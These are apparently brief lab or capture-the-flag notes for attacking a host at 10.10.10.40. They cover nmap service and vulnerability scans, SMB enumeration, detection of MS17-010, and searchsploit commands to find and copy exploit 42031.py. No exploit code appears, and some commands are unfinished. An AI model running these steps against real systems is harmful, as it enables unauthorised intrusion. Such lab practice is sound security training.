 $ nmap -sC -Pn -T4 -O -sV -sS -A 10.10.10.40
$ nmap -oA

$ smbmap -H 10.10.10.40 -u "隨便"
$ smbclient //10.10.10.40/??? 

$ nmap --script smb-vuln* -p445 10.10.10.40
-> smb-vuln-ms17-010

[Exploit Database SearchSploit Manual (exploit-db.com)](https://www.exploit-db.com/searchsploit)
$ searchsploit -t ms17-010 -v -o -m
title, verbose, overflow, mirror(copied to current dir)

$ find / -name  42031.py
$ cp 

exploit Code stored @ /usr/share/exploitdb/exploits